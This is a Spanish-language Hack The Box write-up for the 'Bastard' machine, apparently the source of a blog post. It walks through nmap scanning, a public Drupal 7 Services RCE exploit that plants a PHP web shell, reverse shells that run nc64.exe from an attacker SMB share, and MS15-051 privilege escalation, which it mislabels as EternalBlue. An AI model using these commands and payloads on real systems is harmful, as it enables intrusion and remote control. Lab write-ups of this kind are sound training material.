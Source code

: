 ```yaml
---
layout: post
title: Bastard
date: 2022-11-17
author: BlackCage
categories: [HackTheBox]
tags: [HTB, Enumeration, Drupal, RCE, EternalBlue]
---
```


# Bastard [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.9 -oG allPorts`
- `nmap -sCV -p80,135 10.10.10.9 -oN targeted`

`NMAP` nos dice la versión de `Drupal`, en este caso `7`.

### Inspección

Vemos que `NMAP` (además de la versión de `Drupal`) nos dice que el archivo `robots.txt` existe, así que vamos a verlo y vemos un `TXT` llamado `CHANGELOG.txt`, al abrirlo podemos ver (como su nombre indica) los cambios realizados a `Drupal`, vemos que la versión que tienen instalada es la `7.54`, lanzada día uno de febrero del 2017.

```
Drupal 7.54, 2017-02-01
-----------------------

- Modules are now able to define theme engines (API addition:
https://www.drupal.org/node/2826480).
- Logging of searches can now be disabled (new option in the administrative
interface).
- Added menu tree render structure to (pre-)process hooks for theme_menu_tree()
(API addition: https://www.drupal.org/node/2827134).
- Added new function for determining whether an HTTPS request is being served
```

Con SearchSploit buscamos por `Drupal` y nos aparecen muchos `exploits`, pero vemos uno que sirve para todas las versiones de `Drupal 7`, por lo que usaremos ese.

```
Drupal 7.x Module Services - Remote Code Execution | exploits/php/webapps/41564.php
```

Para poder copiarlo en el directorio en el que estamos usaremos el parámetro `-m` y especificaremos la ruta, en este caso: `exploits/php/webapps/41564.php`

- `searchsploit -m exploits/php/webapps/41564.php`

Vemos que el `script` requiere de dos cosas, la `URL` y la ruta `endpoint`, para obtener la ruta usaremos [`DirSearch`](https://github.com/maurosoria/dirsearch), una herramienta que nos ayudará a encontrar directorios y archivos. Lo bueno de [`DirSearch`](https://github.com/maurosoria/dirsearch) es que ya tiene implementado un diccionario propio con las rutas y archivos más importantes y comunes.

Con esto claro procederemos a ejecutar la herramienta, el parámetro `-e` es para especificar la extensión, en este caso `PHP` aunque también encontrará rutas. El parámetro `-x` es para excluir códigos de estado y, por último, el parámetro `-t`, que sirve para especificar la cantidad de hilos a utilizar.

```
dirsearch.py -u "http://10.10.10.9/" -e php -x 403,404 -t 50
```

```
_|. _ _ _ _ _ _|_ v0.3.
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-19-03-07_11-06-02.log

Target: http://10.10.10.9/

[...]
[12:02:32] 200 - 2KB - /robots.txt
[12:02:37] 200 - 62B - /rest/
[...]

Task Completed
```

Como vemos hemos encontrado una ruta con el nombre `rest`, la cual si le enviamos una petición nos sale lo siguiente:

```
Services Endpoint "rest_endpoint" has been setup successfully.
```

Bien! Ya tenemos todos los requisitos para poder explotarlo! Aunque antes tenemos que cambiar algunos parámetros del archivo `PHP` antes descargado.

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
'filename' => 'black.php',
'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

Vemos que el parámetro `data` es algo extraño, lo puse así para una vez creado el archivo `PHP` pasarle (con el parámetro `cmd`) el comando para ejecutarlo a nivel de sistema.

Bien! Ahora podemos ejecutar el archivo con `php` para que nuestro archivo malicioso se suba.

- `php 41564.php`

```
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/black.php
```

- `curl http://10.10.10.9/black.php?cmd=whoami`

```
nt authority\iusr
```

### Shell

Bien! Ahora que ya podemos ejecutar comandos a nivel de sistema de una forma más cómoda podemos utilizar [`smbserver.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) del repositorio [`Impacket`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) para subir el `EXE` de `NC` y así poder entablarnos una conexión, ya que si tratamos de mandar una petición normal no nos dejará.

- `smbserver.py black .`
- `rlwrap -cAr nc -nlvp 4444`

Una vez hayamos creado el servidor `SMB` y habernos puesto en escucha por el puerto que nosotros queramos podemos visitar la siguiente `URL`:

```
http://10.10.10.9/black.php?cmd=\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.9 4444
```
Bien! Ya estamos dentro de la máquina como `IUSR`!

### Subida de privilegios

Estupendo, ya estamos en la máquina, pero queremos ser administradores, así que comencé por enumerar el sistema con `systeminfo` y me fijé que era `Windows Server 2008`, por lo que estaba bastante desactualizado.

Tras hacer una pequeña búsqueda encontré que era vulnerable a `EternalBlue`, así que para explotarlo me descargué un `ZIP` del repositorio [`Windows Kernel Exploit`](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051), el cual contenía un archivo `EXE` llamado `ms15-051x64.exe`.

Antes de nada me gustaría probar si funciona, así que me montaré el servidor de nuevo.

- `smbserver.py black .`

```
PS C:\inetpub\drupal-7.54> \\10.10.14.15\black\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system
```

Funciona! De nuevo utilizaré el servidor `SMB` para transferir el archivo a la máquina víctima y, con `NC`, entablarnos una Reverse Shell. Por lo que nos ponemos en escucha por el puerto que queramos con `NC`.

- `rlwrap -cAr nc -nlvp 443`

```
C:\inetpub\drupal-7.54>\\10.10.14.15\black\ms15-051x64.exe
"\\10.10.14.15\black\nc64.exe -e cmd.exe 10.10.14.15 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================
```
Enhorabuena! Hemos recibido la Reverse Shell y ya somos administradores de la máquina!